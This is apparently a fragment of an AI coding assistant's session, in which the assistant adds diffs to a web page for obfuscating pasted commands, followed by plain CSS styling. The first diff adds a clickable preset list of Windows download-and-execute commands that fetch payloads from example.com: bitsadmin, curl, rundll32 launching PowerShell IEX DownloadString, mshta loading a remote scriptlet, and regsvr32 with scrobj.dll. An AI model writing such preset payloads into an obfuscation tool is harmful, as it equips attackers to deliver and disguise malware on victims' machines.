 ```diff
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')");</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">mshta vbscript:Close(Execute("GetObject(\"script:http://example.com/payload.sct\")"));</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll</div>
+                                 </div>
+                             </div>
                              <textarea id="input-command" placeholder="Please paste the command you want to obfuscate here…" tabindex="0" autocomplete="off" autocorrect="off" autocapitalize="off" spellcheck="false"></textarea>
                              <div class="command-bar">
```

---

现在添加对应的CSS样式:

---

```diff
      width: 80%;
  }
+ 
+ .command-reference {
+     background: rgba(255, 255, 255, 0.1);
+     border-radius: 8px;
+     padding: 15px;
+     margin-bottom: 15px;
+ }
+ 
+ .command-reference-title {
+     color: white;
+     font-size: 16px;
+     font-weight: bold;
+     margin-bottom: 10px;
+ }
+ 
+ .command-reference-list {
+     display: flex;
+     flex-direction: column;
+     gap: 8px;
+ }
+ 
+ .command-item {
+     background: rgba(0, 0, 0, 0.2);
+     padding: 8px 12px;
+     border-radius: 4px;
+     cursor: pointer;
+     font-family: Monaco, Menlo, Consolas, monospace;
+     font-size: 13px;
+     color: #fff;
```